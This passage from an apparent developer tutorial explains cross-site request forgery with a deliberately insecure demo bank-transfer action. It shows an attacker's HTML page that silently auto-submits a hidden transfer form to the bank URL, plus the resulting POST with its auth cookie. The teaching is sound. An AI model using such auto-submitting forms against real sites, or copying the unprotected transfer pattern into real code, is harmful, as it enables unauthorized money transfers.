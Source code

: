 ***Disclaimer: Do not write code like this**. This code is for
demonstration purposes only. For example, I don’t ensure that amount
non-negative, which means you can enter a negative value to transfer
money from another account. Like I said, if you see a bank website like
this, run!*

The code is straightforward. We simply transfer money from one account
to another. At this point, everything looks fine. We’re making sure the
user is logged in before we transfer money. And we are making sure that
this method can only be called from a POST request and not a GET request
(this last point is important. **Never allow changes to data via a GET
request**).So what could go wrong?

Well *BadGuy*, another bank user has an idea. He sets up a website that
has a page with the following code:

```csharp
<html>
<head>
    <title></title>
</head>
<body>
    <form name="badform" method="post"
     action="http://localhost:54607/Home/Transfer">
        <input type="hidden" name="destinationAccountId" value="2" />
        <input type="hidden" name="amount" value="1000" />
    </form>
    <script type="text/javascript">
        document.badform.submit();
    </script>
</body>
</html>
```

What he’s done here is create an HTML page that replicates the fields in
bank transfer form as hidden inputs and then runs some JavaScript to
submit the form. The form has its `action` set to post to the bank’s
URL.

When you visit this page it makes a form post back to the bank site. If
you want to try this out, I am hosting [this HTML
here](http://demo.haacked.com/security/csrf-mvc.html "CSRF Attack Demo").
You have to make sure the website sample code is running on your machine
before you click that link to see it working.

Let’s look at the contents of that form post.

>     POST /Home/Transfer HTTP/1.1
>     Referer: http://haacked.com/demos/csrf-mvc.html
>     User-Agent: ...
>     Content-Type: application/x-www-form-urlencoded
>     Host: 127.0.0.1:54607
>     Content-Length: 34
>     Cookie: .ASPXAUTH=98A250...03BB37
>
>     Amount=1000&destinationAccountId=2

